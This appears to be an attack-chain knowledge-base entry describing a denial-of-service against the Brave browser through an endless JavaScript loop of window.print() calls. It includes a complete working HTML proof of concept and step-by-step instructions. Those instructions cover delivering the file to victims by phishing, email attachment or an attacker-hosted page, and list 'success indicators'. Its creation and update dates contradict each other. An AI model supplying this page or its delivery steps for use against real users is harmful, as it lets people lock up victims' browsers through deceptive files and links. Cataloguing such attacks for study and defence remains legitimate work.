

---
tags:
  - dos
  - browser
  - javascript
  - brave
  - chromium
type: attack_chain
tools: []
tactics:
  - '[[Impact]]'
commands: []
platforms:
  - Web
  - Browser (Brave/Chromium-based)
complexity: low
procedures:
  - '[[procedures/Trigger-Print-Dialog-DoS-with-JavaScript-Loop]]'
step_count: 1
techniques:
  - '[[Endpoint Denial of Service]]'
description: >-
  A denial-of-service attack that overwhelms the Brave browser by repeatedly
  invoking the window.print() JavaScript function, spamming print dialogs and
  rendering the browser unusable.
skill_level: beginner
impact_level: medium
id: 69e452df-492e-4468-b1ea-405787904138
created_at: '2025-12-14T17:28:20.090Z'
updated_at: '2025-12-14T17:28:20.090Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Impact]]'
mitre_techniques:
  - '[[Endpoint Denial of Service]]'
---
# Browser DoS via Repeated window.print() Calls in Brave

## Overview

This attack chain exploits the lack of rate limiting on the window.print() JavaScript API in the Brave browser (Chromium-based), leading to a denial-of-service condition. By creating a simple HTML file with a JavaScript loop that continuously calls window.print(), an attacker can force endless print dialogs to appear, overwhelming the user interface and making the browser unresponsive. The attack requires the victim to open a malicious HTML file, such as via email attachment, phishing link, or direct download. While classified as informative in the original report due to its limited scope (local impact only), it demonstrates uncontrolled resource consumption in browser APIs. No privileges are escalated, and the impact is confined to the affected browser instance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Text editor (e.g., Notepad, VS Code) to create the HTML file
- Web browser (Brave) on the target system

### Target Environment

- Brave browser (Chromium-based, any recent version)
- No specific services or ports required; runs client-side
- Local file access or web-hosted HTML

### Initial Access Requirements

- Victim must open the malicious HTML file in Brave
- Delivery via phishing, malicious website, or file share
- No credentials or prior network access needed

## Detailed Attack Procedures

### Step 1: Prepare and Execute Print Dialog DoS PoC
procedure: [[procedures/Trigger-Print-Dialog-DoS-with-JavaScript-Loop]]

**Objective**: Create and load an HTML file that triggers repeated window.print() calls to spam print dialogs and deny service to the browser.

**Instructions**: First, create a simple HTML file named `attack3.html` with embedded JavaScript that loops the print function. Save it locally or host it on a web server for delivery.

The HTML content should be:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Print DoS PoC</title>
</head>
<body>
    <h1>Loading...</h1>
    <script>
        while(true) {
            window.print();
        }
    </script>
</body>
</html>
```

Then, open the file in the Brave browser by double-clicking it or navigating to its URL (e.g., `file:///path/to/attack3.html` or `http://attacker.com/attack3.html`).

**Expected Output**: Upon loading, the browser immediately begins displaying endless print dialogs, preventing normal use until the tab or browser is force-closed.

**Success Indicators**:
- Continuous print dialogs appear without user interaction
- Browser becomes unresponsive to other inputs
- Task manager shows high CPU usage from the browser process

## Attack Chain Summary

### Key Achievements

1. Successful delivery and execution of the malicious HTML PoC
2. Induction of denial-of-service via UI spam, rendering Brave unusable
3. Demonstration of uncontrolled resource consumption in JavaScript APIs

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Impact]]

---
*Last updated: 2023-10-01*
